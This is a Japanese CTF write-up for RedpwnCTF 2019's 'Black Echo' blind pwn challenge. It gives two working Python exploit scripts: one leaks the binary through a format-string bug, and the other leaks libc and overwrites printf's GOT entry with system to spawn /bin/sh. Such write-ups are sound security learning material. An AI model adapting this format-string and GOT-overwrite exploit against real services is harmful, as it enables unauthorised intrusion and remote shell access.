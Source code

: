 # [pwn 413pts] Black Echo - RedpwnCTF 2019
問題バイナリが配布されていないBlind pwn問です。
Echoサービスで、シンプルなFSBがあるのでまずはバイナリをリークします。
```python
from ptrlib import *

sock = Socket("chall2.2019.redpwn.net", 4007)

f = open("binary", "wb")

elf = b''
addr = 0x08048000
pos = 11
for i in range(8000):
    payload = str2bytes("%{:08d}$sX".format(pos) + "X" * 4) + p32(addr)
    if b'\n' in payload:
        elf += b'\x00'
        addr += 1
        continue
    sock.sendline(payload)
    data = sock.recv(timeout=10)
    if data is not None:
        data = data[:data.index(b"XXXXX")]
        if data == b'': data = b'\x00'
        print(hex(addr), data)
        elf += data
        addr += len(data)
    f.seek(0)
    f.write(elf)
        
sock.interactive()
```

これを解析すると各種関数のGOTのアドレスが分かるので、あとはGOT overwriteすればOKです。
libcも配布されていないので特定する必要がありますが、libc databaseが死んでいるので（サービス終了？）適当にguessしたらlibc-2.23であることが分かりました。
あとはGOT overwriteでprintfをsystemに書き換えて終わり。
```python
from ptrlib import *

libc = ELF("./libc-2.23.so")
sock = Socket("chall2.2019.redpwn.net", 4007)

got_printf = 0x804a010
got_fgets  = 0x804a014
got_setbuf = 0x804a00c

# leak libc
payload = p32(got_printf) + b"%7$s"
sock.sendline(payload)
libc_base = u32(sock.recv()[4:8]) - libc.symbol("printf")
logger.info("libc = " + hex(libc_base))

# get shell
writes = {
    got_printf: libc_base + libc.symbol("system")
}
payload = fsb(
    writes = writes,
    bs = 1,
    pos = 7,
    bits = 32
)
sock.sendline(payload)
print(sock.recv())
sock.sendline("/bin/sh")

sock.interactive()
```

# 感想
Blind系解いたの初めてです。
libc database死んでるの困るなぁ。
自分で作るか。